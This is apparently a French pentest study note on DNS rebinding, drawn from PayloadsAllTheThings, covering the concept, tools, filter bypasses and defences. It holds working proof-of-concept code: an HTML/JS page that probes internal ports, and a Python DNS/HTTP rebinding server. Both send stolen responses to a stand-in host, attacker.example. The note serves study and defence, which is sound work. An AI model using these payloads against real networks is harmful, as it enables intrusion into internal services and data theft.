

# 🔁 DNS Rebinding

> [!info] **En 1 phrase**
> DNS Rebinding = faire **re-résoudre** un nom de domaine contrôlé par l'attaquant vers une **IP interne** (127.0.0.1, réseau local) après une première résolution légitime, pour que le navigateur de la victime parle à un service interne **sous une origine « autorisée »**.
>
> Source principale : **[PayloadsAllTheThings (swisskyrepo)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/DNS%20Rebinding/README.md)**

---

## 🎯 Concept



> [!info] 💡 **Pourquoi ça marche**
> La **Same-Origin Policy (SOP)** compare les **origines** (`schéma://hôte:port`), pas les IP.
> Comme `evil.com` reste `evil.com`, le navigateur considère que la requête vers l'IP interne
> vient **de la même origine** → le JS peut **lire la réponse** (contrairement à un XSS/SSRF simple).

---

## 🧠 Le principe en détail

### Le même nom DNS, deux réponses

| Phase | IP résolue | Pourquoi |
|---|---|---|
| **1. Visite initiale** | `203.0.113.1` (IP attaquant) | Servir la page + le JS malveillant |
| **2. Re-résolution** (après TTL) | `192.168.1.1` ou `127.0.0.1` (IP victime) | Toutes les requêtes suivantes vont vers la cible interne |

- Le serveur DNS de l'attaquant répond **différemment selon le client** : il renvoie l'IP interne
  uniquement aux requêtes qui ne sont **pas** la première (résolution initiale de la page).
- Le **TTL (time-to-live)** est volontairement très court (ex: `1` seconde) pour forcer le navigateur
  à **re-résoudre le nom** dès la requête suivante.
- Une autre approche : alterner les réponses **IP attaquant / IP interne** à chaque requête
  (round-robin DNS sur 2 réponses) — le navigateur finit par tomber sur l'IP interne.

> [!warning] ⚠️ **SOP vs DNS**
> La SOP ne connaît **pas les IP** : elle ne regarde que l'**origine** (host + port + schéma).
> Un nom DNS qui pointe vers n'importe quelle IP reste « la même origine » → le JS peut
> **envoyer ET lire** les réponses du service interne.

---

## 🛠️ Outils & services de rebinding

### Frameworks complets

| Outil | Description | Lien |
|---|---|---|
| **Singularity of Origin** (nccgroup) | Framework DNS rebinding : serveur HTTP, DNS, pages autoattack, API JS | [nccgroup/singularity](https://github.com/nccgroup/singularity) |
| **rebind.it** | Client web de Singularity (rebind DNS + UI d'attaque) | [rebind.it](http://rebind.it/) |
| **rbndr** (taviso) | Service DNS rebinding minimaliste | [taviso/rbndr](https://github.com/taviso/rbndr) |
| **rebinder.html** | Helper de rbndr (générateur de payload) | [lock.cmpxchg8b.com/rebinder.html](https://lock.cmpxchg8b.com/rebinder.html) |
| **RebindRanger** | Script d'exploitation DNS rebinding (auto, services connus) | [rbndr / RebindRanger](https://github.com/crazy-wasim/RebindRanger) |
| **rbsession** | Outil d'attaque DNS rebinding par sessions | [rbsec/rbsession](https://github.com/rbsec/rbsession) |

### Résolution DNS « sauvage » : nip.io / sslip.io

Services qui encodent **n'importe quelle IP dans un nom de domaine** (wildcard DNS) :

```bash
# 10.0.0.1.nip.io   →  10.0.0.1
# 192.168.1.1.sslip.io  →  192.168.1.1
# 127-0-0-1.sslip.io    →  127.0.0.1

curl http://192.168.1.1.nip.io/
# Utile pour TESTER/valider l'atteignabilité, mais pour rebinding :
# il faut une réponse DIFFÉRENTE entre la 1re et la 2e requête → pas suffisant seul
```

> [!tip] 💡 Ces services ne font **qu'une seule résolution** (pas de re-binding automatique) :
> ils servent à tester une cible précise, pas à faire tourner une attaque DNS rebinding complète.

---

## ⚔️ Exploitation

### Workflow d'attaque

1. **Enregistrer un domaine** `evil.com` et pointer son NS vers notre **serveur DNS rebinding**.
2. **Configurer le serveur DNS** pour répondre 2 IP (attaquant d'abord, interne ensuite, TTL court).
3. **Héberger une page** sur `http://evil.com` contenant le JS qui interroge l'interne.
4. **Piéger la victime** (phishing, lien cliqué, XSS dans un site tiers, pub malveillante...).
5. Le JS scanne `127.0.0.1` / le réseau local, atteint un service web / API / admin.
6. **Exfiltration** : réponses lues par le JS → renvoyées vers l'attaquant (fetch/XHR, websocket, image, DNS...).

### Cibles typiques

- `127.0.0.1` : service local, API sans auth, admin d'appareil, agent cloud (metadata EC2 à l'interne...)
- `192.168.x.x` / `10.x.x.x` : routeurs, imprimantes, caméras, NAS, serveurs de l'infra interne
- Ports courants : `80/443/8080/8443` (web), `3000` (dev), `2375` (Docker), `6379` (Redis), `11211` (Memcached)

### Combinaison avec CORS / CSWSH

> [!info] 💡 **Le duo de choc**
> DNS rebinding + **misconfiguration CORS** = vol de données complet.
> Le rebinding place la requête dans l'**origine légitime** (`evil.com`), le serveur interne
> répond avec `Access-Control-Allow-Origin: <Origin de la requête>` (miroir ou `*`) →
> le JS peut lire la réponse. C'est la base du **CSWSH (Cross-Site WebSocket Hijacking)** :
> un service qui accepte les WebSockets sans valider l'`Origin` peut être détourné de la même façon.

### Exfiltration

- **Fetch/XHR** vers le domaine rebindé → données dans la réponse (lisible grâce à la SOP).
- **WebSocket** (`new WebSocket("ws://evil.com/socket")`) → CSWSH si pas de check d'Origin.
- **Images** (``) → exfil non bloquée par CORS (pas besoin de lire).
- **DNS** : sous-domaine avec les données → requête DNS visible par l'attaquant.

---

## 💻 Scripts / PoC

### Page HTML + JS (auto-scan de l'interne)

```html
<!-- Servi par http://evil.com (première IP : l'attaquant) -->
<!DOCTYPE html>
<html>
<head><title>Status</title></head>
<body>
<script>
  // IP interne à cibler (re-résolution du même nom après TTL)
  const TARGET_HOST = "evil.com";
  const PORTS = [80, 443, 3000, 8080, 8443, 2375];

  async function probe(port) {
    try {
      // La requête part vers l'IP INTERNE car le TTL a expiré,
      // mais l'origine reste evil.com → SOP OK, réponse LISIBLE.
      const resp = await fetch(`http://${TARGET_HOST}:${port}/`);
      if (resp.ok) {
        const text = await resp.text();
        // exfil vers l'attaquant (requête séparée, pas de CORS bloquant)
        new Image().src = `http://attacker.example/leak?p=${port}&d=${encodeURIComponent(text.slice(0, 500))}`;
      }
    } catch (e) { /* port fermé / timeout */ }
  }

  PORTS.forEach(p => probe(p));
</script>
</body>
</html>
```

### Serveur Python : DNS avec 2 réponses + HTTP

```py
# dns_rebind.py — serveur DNS + HTTP minimaliste
# Résolution : 1re requête → IP_ATTAQUANT, ensuite → IP_INTERNE
# Astuce classique : distinguer par le type de client (python-requests
# pour la page, navigateur pour le rebind) ou par un compteur IP.

from dns import message, rdatatype, rdataclass, rdata, rrset
from dns.rdtypes import IN
import socket, threading

ATTACKER = "203.0.113.1"
TARGET   = "192.168.1.1"   # IP interne de la victime
DOMAIN   = "evil.com"

def build_response(query, ip):
    resp = message.make_response(query)
    answer = rrset.RRset(query.question[0].name, rdataclass.IN, rdatatype.A)
    answer.add(IN.A.A(rdataclass.IN, rdatatype.A, ip))
    answer.update_ttl(1)                 # TTL court → re-résolution forcée
    resp.answer.append(answer)
    return resp

def dns_server():
    sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
    sock.bind(("0.0.0.0", 53))
    seen = {}
    while True:
        data, addr = sock.recvfrom(512)
        query = message.from_wire(data)
        # chaque adresse client résout une fois vers l'attaquant, puis vers la cible
        ip = ATTACKER if addr[0] not in seen else TARGET
        seen[addr[0]] = True
        sock.sendto(build_response(query, ip).to_wire(), addr)

# --- Serveur HTTP qui sert la page + le JS malveillant ---
from http.server import HTTPServer, BaseHTTPRequestHandler

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-Type", "text/html")
        self.end_headers()
        self.wfile.write(b"<script>fetch('http://evil.com:8080/').then(r=>r.text()).then(d=>new Image().src='http://attacker.example/leak?'+btoa(d))</script>")

threading.Thread(target=dns_server, daemon=True).start()
HTTPServer(("0.0.0.0", 80), Handler).serve_forever()
```

### Setup avec Singularity of Origin (nccgroup)

```bash
# 1. Cloner + lancer (DNS + HTTP intégrés, docker ou natif)
git clone https://github.com/nccgroup/singularity && cd singularity
docker-compose up -d            # ou : make docker-build

# 2. Pointer le domaine rebindable vers l'IP du serveur Singularity
#    zone DNS :  A     rebind.your.domain → IP_SINGULARITY
#                NS    rebind.your.domain → IP_SINGULARITY (délégation DNS !)

# 3. Personnaliser la page autoattack
#    html/autoattack.html → configurer ports / cible interne

# 4. Lancer l'attaque
#    Navigateur victime → http://rebind.your.domain:8080/autoattack.html
#    (résout d'abord vers Singularity, puis re-résout vers la cible interne)
```

### Verif rapide du rebind (dig)

```bash
# La 1re résolution sert la page (IP attaquant)...
dig @IP_SINGULARITY evil.com +short          # → 203.0.113.1
# ...la suivante, pour un autre client, répond l'IP interne
dig @IP_SINGULARITY evil.com +short          # → 192.168.1.1
```

---

## 🧱 Limites & contraintes

| Limite | Explication |
|---|---|
| **Contrôle du TTL** | Il faut un **serveur DNS qu'on contrôle** pour servir des TTL courts + 2 IP |
| **DNS pinning (navigateurs)** | Chrome/Firefox **mémorisent** la résolution d'un nom un certain temps : si le TTL n'est pas respecté ou que la re-résolution est retardée, le rebind échoue (utiliser des TTL ~1s et des re-résolutions répétées) |
| **HTTPS / certificats** | Rebind en HTTPS = impossible sans **certificat valide pour l'IP interne** (le navigateur vérifie le CN/SAN du cert, pas le DNS). Les attaques visent donc surtout des cibles en **HTTP**, ou des services avec cert sauvage/wildcard |
| **DNS-over-HTTPS (DoH)** | Si le navigateur utilise DoH (défaut Chrome), la résolution part vers un résolveur public qui **ignore le TTL de l'attaquant** et peut cacher le rebind → obliger la victime en HTTP et espérer un résolveur classique |
| **Ports** | La SOP exige le **même port** : le service interne doit écouter sur le **même port** que la page attaquante (ou on sert la page sur les ports cibles probables) |
| **Firewall / DNS filtering** | Les produits qui filtrent les réponses DNS vers des IP privées (RFC 1918, 127.0.0.0/8) cassent le rebind simple → voir bypass ci-dessous |

---

## 🚪 Bypass de protections

> Les protections DNS (DNS firewalls, RPZ) bloquent surtout les **réponses DNS** contenant des IP
> privées (RFC 1918, loopback). Plusieurs contournements documentés par NCC Group :

### 0.0.0.0

```bash
# Utiliser 0.0.0.0 pour atteindre 127.0.0.1 localement :
# sur Linux, connect(0.0.0.0) ≈ 127.0.0.1
# → contourne les filtres qui bloquent 127.0.0.1 / 127.0.0.0/8
# Réponse DNS : 0.0.0.0 au lieu de 127.0.0.1
```

### CNAME vers l'interne

```bash
# Le filtre regarde le type A (IP directe) mais pas le CNAME :
# on répond un CNAME vers le nom INTERNE, que le DNS local résout.
$ dig cname.evil.com +noall +answer
; <<>> DiG 9.11.3-1ubuntu1.15-Ubuntu <<>> cname.evil.com +noall +answer
;; global options: +cmd
cname.evil.com.           381     IN      CNAME   target.local.
```

### localhost en CNAME

```bash
# CNAME vers "localhost" pour contourner le filtre sur 127.0.0.1
$ dig www.evil.com +noall +answer
; <<>> DiG 9.11.3-1ubuntu1.15-Ubuntu <<>> www.evil.com +noall +answer
;; global options: +cmd
localhost.evil.com.           381     IN      CNAME   localhost.
```

### Autres variantes

- **Round-robin DNS** : alterner A / B à chaque requête pour augmenter la probabilité de rebind malgré le pinning.
- **Multi-IP dans une réponse** : renvoyer l'IP attaquant **et** l'IP interne dans le même enregistrement (certains navigateurs finissent par essayer la 2e IP).
- **Port bascule** : si le pinning bloque le host, multiplier les sous-domaines (`a.evil.com`, `b.evil.com`...) pour rafraîchir le cache.

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Valider le header `Host` côté serveur** | Le service interne doit refuser toute requête dont le `Host` n'est **pas son nom attendu** (allowlist). C'est LA défense principale contre le rebinding |
| **Ne jamais faire confiance au DNS / à l'IP distante** | Le `REMOTE_ADDR` vu par le serveur n'est pas fiable pour l'autorisation : une requête vers un nom rebindé vient « de l'interne » mais avec un `Host` externe |
| **IP pinning serveur** | Après le 1er handshake (ex: TLS/HTTP), mémoriser l'IP du client et refuser tout changement d'IP pour une même session (empêche le rebind en cours de connexion) |
| **HTTPS partout + certs strictes** | Empêche le rebind HTTPS (certificat invalide pour l'IP interne) et réduit l'injection de contenu |
| **Valider l'`Origin` / `Sec-WebSocket-Origin` côté serveur** | Ne jamais refléter l'origine : allowlist stricte (casse la synergie CORS/CSWSH) |
| **DNS filtering / RPZ** | Bloquer les réponses DNS vers RFC 1918, loopback, 0.0.0.0 — contournable (CNAME, 0.0.0.0) donc à doubler de la validation Host |
| **Listen on 127.0.0.1 binding fort** | `bind()` des services sur une IP précise, authentication sur les APIs d'admin (pas d'API muette sur loopback) |
| **Surveillance** | Logs : requêtes avec `Host` externe sur IP interne, burst de connexions depuis un même navigateur vers plusieurs ports, résolutions DNS répétées |
| **Proxy inverse / WAF** | Terminer les connexions sur un reverse proxy qui n'autorise que les noms publics → le rebind tape le proxy, pas le service |

---

## ⚠️ Tips & Pièges

> [!tip] 💡 **Prérequis pour que ça marche**
> 1. **Contrôler un nom de domaine** (délégation NS vers son serveur DNS ou DNS dynamique).
> 2. **TTL très court** (1–5 s) servi par SON résolveur.
> 3. Une **cible interne HTTP** accessible (service web, API, admin) avec **pas de validation du `Host`**.
> 4. La victime sur un navigateur qui **re-résout le DNS** (et si possible pas de DoH).

> [!warning] ⚠️ **Pièges classiques**
> - **HTTPS tue le rebind** : sans cert valide pour l'IP interne, le navigateur bloque. Vise le HTTP ou les services tolérants.
> - **Le pinning des navigateurs** : Chrome garde parfois la résolution plus longtemps que le TTL → multiplier les tentatives / sous-domaines.
> - **Différence avec l'Open Redirect** : l'open redirect envoie la **victime elle-même** sur un domaine externe contrôlé (rebond via un endpoint). Le DNS rebinding **ne change pas de domaine** : il change l'**IP** que le nom résout — le navigateur reste sur la même origine, le SOP ne dit rien.
> - **Ne pas oublier l'IP réelle de la requête** : le serveur interne doit autoriser **par son nom réel**, pas par son IP. Une requête rebindée a `REMOTE_ADDR = 192.168.x.x` (passe les ACL IP) mais `Host: evil.com` (détonateur).
> - **Le port doit matcher** : page servie sur `:8080` → seule la cible sur `:8080` est rebindable (SOP par port).
> - **L'exfil peut être visible** : les requêtes vers l'attaquant apparaissent dans les logs de bord → en mode démo, préférer une exfil discrète (DNS, image).

---

## 🔗 Liens

- [[SSRF|🌐 SSRF]]
- [[CORS|🌐 CORS]]
- [[Web Sockets|🔌 Web Sockets]]
- [[XSS (Cross-Site Scripting)|🖼️ XSS]]
- → Note complète : [[03 - Exploitation Web|🌍 Exploitation Web]]
- 📚 Source : [PayloadsAllTheThings — DNS Rebinding](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/DNS%20Rebinding/README.md)
- 📖 [NCC Group — How Do DNS Rebinding Attacks Work?](https://github.com/nccgroup/singularity/wiki/How-Do-DNS-Rebinding-Attacks-Work%3F)
- 🧰 [Singularity of Origin (nccgroup)](https://github.com/nccgroup/singularity) / [Protection Bypasses](https://github.com/nccgroup/singularity/wiki/Protection-Bypasses)
- 🧰 [rbndr (taviso)](https://github.com/taviso/rbndr) / [RebindRanger](https://github.com/crazy-wasim/RebindRanger) / [rbsession](https://github.com/rbsec/rbsession)
